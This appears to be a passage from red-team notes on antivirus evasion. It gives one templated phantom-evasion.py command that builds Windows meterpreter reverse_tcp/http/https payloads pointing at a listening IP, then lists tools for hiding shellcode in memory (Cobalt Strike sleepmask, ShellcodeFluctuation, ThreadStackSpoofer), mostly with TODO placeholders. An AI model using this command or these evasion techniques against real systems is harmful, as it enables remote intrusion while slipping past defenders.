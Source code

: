 ```bash
#   windows/meterpreter/reverse_TCP = WRT
#   windows/meterpreter/reverse_http = WRH
#   windows/meterpreter/reverse_https = WRS

python3 phantom-evasion.py -a <x86 | x64> -m <WRT | WRH | WRS> -H <LISTENING_IP> -P <LISTENING_PORT> -f <exe | dll> -o <OUTPUT_FILENAME>
```

### Loaded Shellcode in-memory protection

###### In memory shellcode's contents encryption and memory protection switch (RW / NoAccess <-> RX)

*`Cobalt Strike`'s `sleepmask` kit.*

Refer to the `[Cobalt Strike] Beacons generation` note for more information on
possibilities natively offered by `Cobalt Strike` for in-memory obfuscation of
`beacons` shellcode.

*ShellcodeFluctuation.*

[`ShellcodeFluctuation`](https://github.com/mgeeky/ShellcodeFluctuation)

TODO

###### ThreadStackSpoofer

[`ThreadStackSpoofer`](https://github.com/mgeeky/ThreadStackSpoofer)

TODO

--------------------------------------------------------------------------------

### References

https://blog.redbluepurple.io/offensive-research/bypassing-injection-detection
